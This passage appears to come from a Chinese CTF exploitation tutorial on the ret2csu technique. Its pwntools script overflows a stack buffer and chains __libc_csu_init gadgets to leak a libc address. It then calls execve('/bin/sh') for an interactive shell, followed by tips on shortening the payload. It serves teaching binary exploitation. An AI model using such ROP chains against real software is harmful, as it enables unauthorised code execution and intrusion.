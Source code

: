 ```python
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
## RDI, RSI, RDX, RCX, R8, R9, more on the stack
## write(1,write_got,8)
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

sh.recvuntil('Hello, World\n')
## execve(bss_base+8)
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()
```

### 改进

用此处的通用gadgets，输入的字节长度较长，有的情况下不允许有这样长的payload。因此：

- 改进1 提前控制`rbx`和`rbp`

可以看到`rbx`和`rbp`在里面唯一的作用就是用来满足继续执行的条件，因此`rbx=0`，`rbp=1`可以事先设置好

- 改进2 多次利用

顾名思义，将这里的通用`gadgets`分成多次使用（可以用分成的很直观的那两段）。但两次触发之间，要保证程序不会修改`r12-r15`寄存器，因为在两段之间需要用到。

其实长`payload`和多个`payload`还是要看程序的情况，只可以长`payload`但只能利用一次程序也不是不可能。


